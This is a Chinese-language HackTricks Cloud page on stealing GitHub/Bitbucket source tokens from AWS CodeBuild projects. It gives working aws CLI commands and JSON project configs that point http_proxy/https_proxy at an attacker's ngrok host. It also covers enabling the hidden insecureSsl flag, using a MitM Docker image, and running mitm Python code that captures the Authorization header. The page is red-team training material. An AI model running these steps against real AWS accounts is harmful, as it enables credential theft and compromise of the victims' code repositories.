 # AWS Codebuild - Token Leakage

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何源凭据，以便您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现例如 Github 的认证已在账户中设置，你可以通过让 Codebuild **使用特定的 docker 镜像** 来 **提取** 该 **访问** （**GH token 或 OAuth token**）。

为此，你可以 **创建一个新的 Codebuild 项目** 或更改现有项目的 **环境** 以设置 **Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，将设置 **环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
* 按照仓库的说明设置你的代理 IP 地址并设置你的 SSL 证书，然后 **构建 docker 镜像**。
* **不要设置 `http_proxy`** 以避免拦截对元数据端点的请求。
* 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444` 来将代理设置为你的主机。
* 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
* 创建一个 **新的 Codebuild 项目** 或 **修改** 现有项目的环境。
* 设置项目使用 **之前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

* 如 **Github 仓库** 中所示，你可以使用类似的命令：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用的 **mitmproxy 版本是 9.0.1**，据报道在版本 10 中这可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 以类似的方式完成

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### 通过 insecureSSL

**Codebuild** 项目有一个设置叫做 **`insecureSsl`**，这个设置在网页上是隐藏的，你只能通过 API 来更改它。\
启用此选项，允许 Codebuild 连接到存储库 **而不检查** 平台提供的证书。

* 首先，你需要使用类似以下的命令来枚举当前配置：
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* 然后，使用收集到的信息，您可以将项目设置 **`insecureSsl`** 更新为 **`True`**。以下是我更新项目的示例，请注意最后的 **`insecureSsl=True`**（这是您需要从收集的配置中更改的唯一内容）。
* 此外，还要添加环境变量 **http\_proxy** 和 **https\_proxy**，指向您的 tcp ngrok，如下所示： 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 然后，在代理变量指向的端口（http\_proxy 和 https\_proxy）运行来自 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那一周的某个时候被 AWS 修复了（我想是星期五）。所以攻击者不能再利用它了 :)**
{% endhint %}

具有 **提升权限的攻击者在 CodeBuild 中可能会泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，则 **用于访问代码的临时 OAuth 令牌**。

* 攻击者可以将环境变量 **http\_proxy** 和 **https\_proxy** 添加到 CodeBuild 项目，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 更改为使用 HTTP 而不是 HTTPS，例如：`http://github.com/carlospolop-forks/TestActions`
* 然后，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行来自 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用令牌，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥用）。
{% endhint %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
